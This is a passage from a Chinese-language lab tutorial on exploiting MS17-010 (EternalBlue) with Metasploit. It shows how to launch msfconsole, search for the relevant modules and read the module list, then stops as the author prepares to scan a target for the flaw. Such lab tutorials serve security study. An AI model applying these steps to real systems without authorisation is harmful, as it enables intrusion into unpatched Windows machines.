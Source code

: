 ### 攻击过程

首先，攻击机打开终端，输入 **`msfconsole`** ，并按回车等待。

```bash
$ sudo msfconsole
```

建议加上`sudo`，以免出现未知错误。

稍等片刻，metasploit就打开了。如图

![](/img/截图_2019-07-26_22-04-07.png)

接下来，通过 **`search`** 命令本次要利用到的MS17_010模块
```bash
msf5 > search ms17_010
```
然后就跳出一大堆
```txt
Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   Yes    MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```
嘛，我们先检测一下靶机是否存在这个漏洞，选第二个漏洞检测模块。
